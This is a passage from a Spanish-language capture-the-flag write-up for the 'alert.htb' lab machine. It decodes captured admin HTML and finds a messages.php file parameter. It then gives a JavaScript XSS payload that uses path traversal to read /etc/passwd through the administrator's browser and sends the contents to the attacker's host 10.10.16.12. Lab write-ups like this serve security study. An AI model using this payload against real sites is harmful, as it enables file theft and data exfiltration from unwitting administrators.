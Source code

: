 **Decodificamos:**

```bash
echo -n "PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0<...>D4KCg==" | base64 -d; echo
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>
    </nav>
    <div class="container">
        <h1>Messages</h1>
        <ul>
            <li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li>
        </ul>
    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

Vemos el código fuente del lado del administrador y observamos la siguiente etiqueta: `href='messages.php?file=2024-03-10_15-48-34.txt'`. Debemos acceder a dicho endpoint para ver qué se encuentra.

Vamos a `http://alert.htb/messages.php?file=2024-03-10_15-48-34.txt` y no vemos nada, pero la página existe. Así que podemos repetir el truco y ver si el administrador nos devuelve el contenido de la página.

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../etc/passwd', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.16.12/?bs64=' + btoa(req.responseText), false);
exfil.send();
```
